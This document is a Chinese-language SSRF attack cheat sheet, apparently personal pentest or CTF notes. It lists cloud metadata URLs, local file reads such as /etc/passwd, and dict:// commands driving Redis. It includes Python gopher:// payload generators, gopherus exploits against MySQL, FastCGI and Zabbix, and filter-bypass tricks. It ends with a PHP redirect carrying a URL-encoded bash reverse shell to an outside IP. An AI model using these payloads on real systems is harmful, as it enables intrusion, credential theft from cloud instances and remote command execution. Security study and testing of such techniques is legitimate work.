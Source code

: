 ## **SSRF存在场景：**
```
各种输入发消息框
发送网址内容的消息服务端会自动请求(如抖音消息，钉钉消息，知乎发帖，QQ卡片消息等，可用DNSlog验证)
全网页翻译的输入框
在线识图输入图片网址的输入框
在线解析url的输入框
在线获取网站信息的输入框
webhook的接口参数可控
```
^
## **测试有回显的SSRF的探测协议：**
http:
```    
验证，请求一个查看本地ip的网站，查询出口ip    
验证，请求127.0.0.1

对于云服务器还可以访问元数据服务。
元数据服务是一种提供实例相关配置信息的服务，它允许在实例内部访问实例的属性信息，如实例ID、VPC信息、网卡信息等
阿里云
http://100.100.100.200/latest/meta-data/
腾讯云
http://metadata.tencentyun.com/latest/meta-data/
华为云
http://169.254.169.254/
http://169.254.169.254/latest/meta-data/instance-id
```




file:
```
    访问本地文件，file:///etc/hosts 查看本机内网ip
    高权限访问本地文件，file:///proc/net/arp  查看当前的内网的网关为：`172.73.23.1 `，
    而且可以直接发现内网中的另一个 IP 资产为：如`172.73.23.100`
```

伪协议
```
file:/// 从文件系统中获取文件内容，如，file:///etc/passwd
dict:// 字典服务器协议，访问字典资源，如，dict:///ip:6739/info
sftp:// SSH文件传输协议或安全文件传输协议
gopher:// 分布式、文档传递服务，可使用gopherus生成payload
sftp:// SSH文件传输协议或安全文件传输协议
ldap:// 轻量级目录访问协议
tftp:// 简单文件传输协议
```

dict: <https://zhuanlan.zhihu.com/p/115222529>
```
    字典服务器协议，基于查询响应的TCP协议
    dict://172.72.23.23:3306  可探测是否有服务的响应
    dict://172.72.23.27:6379 用dict命令操作redis
                dict://172.72.23.27:6379/set x 2333
                dict://172.72.23.27:6379/info
使用编程的请求函数可以请求，或curl dict://192.168.66.33:6379/info
```
ftp:
```
```
gopher：
```
dict协议的需要一条一条的执行，而gopher协议可以整合执行一条命令就行

并可携带请求包发起get,post请求。dict只能get。

工具gopherus，可以直接计划任务反弹和phpshell。

curl可以走gopher协议
curl gopher://172.2.239.5:9000/_%01%01



手工打gopher流程：
使用脚本生成payload
import urllib.parse

host = "127.0.0.1:80"
content = "uname=admin&passwd=admin"
content_length = len(content)

test =\
"""POST /index.php HTTP/1.1
Host: {}
User-Agent: curl/7.43.0
Accept: */*
Content-Type: application/x-www-form-urlencoded
Content-Length: {}

{}
""".format(host,content_length,content)
# 按照标准，URL只允许一部分ASCII字符，其他字符（如汉字）是不符合标准的，此时就要进行编码。
# 因为我在构造URL的过程中要使用到中文：此时需要用到urllib.parse.quote，此处是为了替换特殊字符\
tmp = urllib.parse.quote(test)
new = tmp.replace("%0A","%0D%0A")
result = urllib.parse.quote(new)
print("gopher://"+host+"/_"+result)

下面是GET:
import urllib
test =\
"""GET /ssrf/get.php HTTP/1.1
Host: 192.168.0.111
"""  
#注意后面一定要有回车，回车结尾表示http请求结束
tmp = urllib.parse.quote(test)
new = tmp.replace('%0A','%0D%0A')
result = '_'+new
print(result)
```




^
## **测试SSRF:**
```
用bp跑内网段:
172.72.23.$21$:$80$
dict://172.72.23.$21$:$80$

扫内网站点的目录，扫网站指纹

扫到资产，通过SSRF的入口进行内网攻击：
手工使用入口需进行一次URL编码
BP中使用入口需进行双编码

入口的请求是POST请求使用gopher协议携带POST请求包
```

利用ssrf操作内网redis写入计划任务反弹shell：<https://blog.csdn.net/qq_63844103/article/details/126896955>
利用ssrf操作内网：
<https://www.sqlsec.com/2021/05/ssrf.html>

使用gopherus.py对无密码mysql执行sql语句：
```
python2 gopherus.py --exploit mysql
```
![](.topwrite/assets/image_1733842266820.png)
使用gopherus.py对9000端口的FastCGI执行命令：
```
1、PHP版本要高于5.3.3，才能动态修改PHP.INI配置文件
2、知道题目环境中的一个PHP文件的绝对路径
3、PHP-FPM监听在本机9000端口
4、libcurl版本>=7.45.0
```
![](.topwrite/assets/image_1733892617872.png)

对10050的zabbix，命令执行。
```
gopherus --exploit zabbix
```



有ssrf但是有防御绕过：
**dns 重绑定**
https\://xz.aliyun.com/t/7495?time\_\_1311=n4%2BxnD0Dy7GQ3AKeD5DsA3rcC%3D%2FjO4boTD

^
## **SSRF绕过**

跳转型
```
https://33129999.xyz@baidu.com

已知要符合正则
if(preg_match('/^http:\/\/ctf\..*show$/i',$x)){
    echo file_get_contents($url);
}

要符合http://ctf开头，show结尾，则
http://ctf.@127.0.0.1/flag.php?show
```
^
姿势1：

```
http://127.1:80
http://127.1:80/flag.php
http://0/flag.php
http://127.255.255.254/flag.php
```

姿势2：将点分十进制表示的IP转化为十进制IP地址绕过

```
http://2130706433/ = http://127.0.0.1
http://3232235521/ = http://192.168.0.1
http://3232235777/ = http://192.168.1.1
http://2852039166/  = http://169.254.169.254
```

姿势3：利用DNS解析
```
http://customer1.app.my.company.127.0.0.1.nip.io = 127.0.0.1
```

<https://mp.weixin.qq.com/s/r6wOTmzcduWi_6v6ujVBwg>

^
#### **302型**
ssrf要求访问的ip是127.0.0.1
自己部署一个php，程序302到内网的服务，并携带参数，这里是命令执行参数。
```
<?php  
header('Location: http://127.0.0.1/flag.php?cmd=%62%61%73%68%20%2d%63%20%22%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%31%36%2e%36%32%2e%33%38%2e%37%31%2f%39%39%39%39%20%30%3e%26%31%22', true, 302);  
exit();
```